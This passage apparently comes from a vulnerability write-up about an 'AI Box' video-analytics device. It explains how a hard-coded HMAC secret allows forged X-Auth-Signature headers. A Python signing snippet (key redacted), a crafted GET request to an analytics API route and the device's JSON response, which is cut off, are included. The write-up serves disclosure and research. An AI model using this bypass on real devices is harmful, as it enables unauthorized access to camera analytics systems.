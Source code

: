 So the method took three parameters from the request:

- A header value for the key `X-Auth-Signature`
- A header value for the key `Date`
- The request body content

Here was the flaw: **a hard-coded secret** for the HMAC calculation in `hamc_key` (yes, I copypasta'd this variable name). The provided request body got concatenated with the provided `Date` header value and then `hmac.new` calculated a signature value across the entire content. If the calculated value equaled to the header value for `X-Auth-Signature`: **Access Granted**. Also one had to take into account that there was an accepted time range only for the corresponding `Date` value. This shouldn't have been a problem, though, since a simple GET request to `/` returned the device's timestamp in the `Date` response header anyways.

# Exploitation

So all the routes in `webra/routes/api_capability.py` should theoretically now have been accessible to us. For a simple GET request to e.g. the URI path `/itx/ai/analytics/`, we could calculate the the HMAC easily

```python
import hashlib
import hmac

body = ""
rfc822_date = "Mon, 26 Jun 2023 08:03:16 GMT"

plain = '{0}:{1}'.format(body, rfc822_date)
hamc_key = '<REDACTED>'
signature_want = hmac.new(hamc_key.encode(), plain.encode(), hashlib.sha256).hexdigest()

print(signature_want)
```

and sent the following request:

```
GET /itx/ai/analytics/ HTTP/1.1
Host: HOST:8443
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Auth-Signature: 2b8d91502dbd42a8f3ec98e44d062157c64ae2aea4f6a7730da1256ca218f446
Date: Mon, 26 Jun 2023 08:03:16 GMT
Connection: close
```

The AI Box responded with the following content:

```
HTTP/1.1 200 OK
Server: nginx
Date: Mon, 26 Jun 2023 08:03:58 GMT
Content-Type: application/json
Content-Length: 4049
Connection: close
Strict-Transport-Security: max-age=31536000; includeSubDomains; preload

[
  {
    "ai": "mot_human_car_mid", 
    "algo_type": "mot", 
    "category": "Human/Car", 
    "ch": 0, 
    "name": "Entrance 1", 
    "text": "Human / Vehicle Detector", 
```